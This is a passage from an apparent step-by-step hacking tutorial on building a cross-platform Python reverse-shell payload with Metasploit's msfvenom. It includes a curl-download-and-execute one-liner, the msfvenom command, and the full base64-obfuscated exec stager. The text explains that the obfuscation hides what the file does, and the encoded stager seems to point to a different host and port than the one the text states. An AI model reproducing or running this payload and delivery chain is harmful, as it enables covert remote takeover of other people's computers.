 ```bash
python payload.py
```

But lets put it all together

```bash
curl THERAWLINKHERE > payload.py && python payload.py
```

As soon as the code is saved to the file, it will run it. 

# Creating the payload

Let's create the payload. For this you will need to have metasploit installed, I'll have a link below for instructions.

We will use the msfvenom program in the metaploit framework to make the payload. You can even think of the payload like venom, we get in through a small hole. But then it spreads everywhere and can have a massive impact.

I want this hack to work on every computer, so I need a type of file that is run the same regardless of whether it is run on Windows, Mac, or Linux.

I settled on Python. Python is a relatively simple programming language that can run on any computer given it has Python installed (We will get around this later).

## Generate using MSFVENOM

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.10.10 LPORT=4545 -f raw > shell.py
```

This is the command we can run to generate the payload with msfvenom. It makes a python file, that when launched will connect to the IP 10.10.10.10 on port 4545. 

## What is inside the payload?

If we open up the [shell.py](http://shell.py) file generated by MSFVENOM we see the following.

```python
exec(
__import__('base64').b64decode(
__import__('codecs').getencoder('utf-8')(
'aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwOC40Ni4yMTIuMTYnLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKHpsaWIuZGVjb21wcmVzcyhiYXNlNjQuYjY0ZGVjb2RlKGQpKSx7J3MnOnN9KQo=')[0]))
```

It looks like gibberish right? Well, thats the point. It changed its form from regular text to something called base64. This is also called obfuscation. This way if someone opens the file, it is not apparent what it does. 

All those random letters and numbers you see is the actually python code we will need to run.
